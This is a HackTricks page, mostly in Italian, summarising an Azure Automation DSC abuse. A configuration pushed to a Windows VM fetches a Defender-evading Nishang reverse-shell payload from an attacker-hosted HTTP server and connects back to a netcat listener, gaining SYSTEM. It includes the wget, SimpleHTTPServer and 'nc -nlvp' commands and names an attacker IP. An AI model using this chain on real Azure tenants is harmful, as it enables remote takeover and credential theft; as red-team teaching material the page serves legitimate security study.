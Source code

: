 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Il processo prevede la configurazione di un'infrastruttura di server remoto per ospitare un payload modificato di Nishang `Invoke-PowerShellTcp.ps1`, chiamato `RevPS.ps1`, progettato per eludere Windows Defender. Il payload è servito da una macchina Kali Linux con IP `40.84.7.74` utilizzando un semplice server HTTP Python. L'operazione viene eseguita attraverso diversi passaggi:

#### Step 1 — Create Files

* **Files Required:** Sono necessari due script PowerShell:
1. `reverse_shell_config.ps1`: Un file di Desired State Configuration (DSC) che recupera ed esegue il payload. È disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Uno script per pubblicare la configurazione sulla VM, disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Le variabili e i parametri in questi file devono essere adattati all'ambiente specifico dell'utente, inclusi nomi delle risorse, percorsi dei file e identificatori di server/payload.

#### Step 2 — Zip Configuration File

* Il `reverse_shell_config.ps1` viene compresso in un file `.zip`, rendendolo pronto per il trasferimento all'Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Imposta il contesto di archiviazione e carica

* Il file di configurazione compresso viene caricato in un contenitore di archiviazione Azure predefinito, azure-pentest, utilizzando il cmdlet Set-AzStorageBlobContent di Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Il server Kali scarica il payload RevPS.ps1 da un repository GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Lo script viene modificato per specificare la VM Windows target e la porta per la reverse shell.

#### Step 5 — Pubblica il file di configurazione

* Il file di configurazione viene eseguito, risultando nel deployment dello script della reverse shell nella posizione specificata sulla VM Windows.

#### Step 6 — Ospita il payload e imposta il listener

* Viene avviato un Python SimpleHTTPServer per ospitare il payload, insieme a un listener Netcat per catturare le connessioni in arrivo.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Il compito pianificato esegue il payload, ottenendo privilegi a livello di SYSTEM.

#### Conclusione

L'esecuzione riuscita di questo processo apre numerose possibilità per ulteriori azioni, come il dumping delle credenziali o l'espansione dell'attacco a più VM. La guida incoraggia a continuare a imparare e a essere creativi nel campo di Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
